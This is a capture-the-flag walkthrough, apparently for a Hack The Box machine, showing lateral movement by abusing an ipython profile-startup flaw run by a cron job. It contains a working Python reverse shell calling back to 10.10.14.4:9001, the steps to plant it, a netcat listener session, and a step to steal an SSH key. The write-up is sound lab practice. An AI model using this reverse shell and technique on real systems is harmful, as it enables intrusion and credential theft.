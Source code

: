 Land on the box as user james_mason and checkout ```/home``` to reveal the existence of another user: dan_smith. Since the user.txt file wasn't in james_mason's home directory, it's probably in dan_smith's.
Enumerating permissions reveals that james_mason and dan_smith are both in the "developer" group. This group only has one directory:
```bash
$ find / -group developer -ls 2>/dev/null
    46286      4 drwxrwx---   2 root     developer     4096 Oct 22 13:49 /opt/scripts_review
```
Using a tool to monitor processes being executed on the box like pspy, I noticed there appears to be a cron where dan_smith's user navigates to the diretory mentioned above and executes a binary (UID=1001 is the dan_smith user):
```bash
2022/10/22 16:07:01 CMD: UID=1001 PID=6370   | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython 
2022/10/22 16:07:01 CMD: UID=1001 PID=6371   | /usr/bin/pkill ipython 
2022/10/22 16:07:01 CMD: UID=1001 PID=6372   | /usr/bin/python3 /usr/local/bin/ipython
```
Ok it's just executing ipython, not an ipython script. That's a bit weird...
After doing a bit of googling, find something that looks interesting: ```https://github.com/advisories/GHSA-pq7m-3gw7-gq5x```
![[Pasted image 20221022150928.png]]
Well, that was easy...
Time to craft a malicious python file and reproduce the steps mentioned above
```python
# the malicous python file
import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.4",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```
Now, just follow the steps from the GitHub issue but sub the directory and file names:
```bash
james_mason@shared:/dev/shm$ mkdir -m 777 /opt/scripts_review/profile_default
james_mason@shared:/dev/shm$ mkdir -m 777 /opt/scripts_review/profile_default/startup
james_mason@shared:/dev/shm$ nano /opt/scripts_review/profile_default/startup/pwn.py
```
Listen for the connection back:
```bash
$ nc -lvnp 9001                                                                                                                                         1 ⨯
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.172] 45336
$ id
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
```
This shell will die quickly so navigate to dan_smith's home directory and grab the ssh key before the cron job kills the process.